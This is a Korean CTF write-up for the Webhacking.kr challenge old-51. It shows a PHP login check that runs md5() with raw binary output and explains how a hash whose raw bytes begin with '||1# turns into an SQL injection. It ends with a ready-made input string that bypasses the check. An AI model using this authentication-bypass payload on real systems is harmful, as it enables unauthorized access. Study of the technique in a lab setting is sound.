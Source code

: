 ```yaml
---
title: ["[Webhacking.kr] old-51 (sqli - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```


```php
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
```

`md5()`함수가 의심스럽다.  
일반적인 `md5()`함수는 `fasle`가 default로, 32자의 16진수 문자열을 출력한다.  

하지만, `true` 옵션을 주면 16바이트의 raw binary를 출력한다.  
즉, MD5의 결과가 sqli 구문인 값을 찾으면 된다.  

```sql
select id from chall51 where id='admin' and pw='1'||1#'
```
위와 같은 쿼리를 만들어야 하므로,  
MD5 해시값이 `'||1#`으로 시작하는 input을 찾으면 된다.  

해시를 역산하는 것은 연산학적으로 굉장히 어렵지만,  
분명히 누군가는 이를 계산해 놓았을 것이다.  
[SQL Injection with Raw MD5 Hashes](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)  

`129581926211651571912466741651878684928`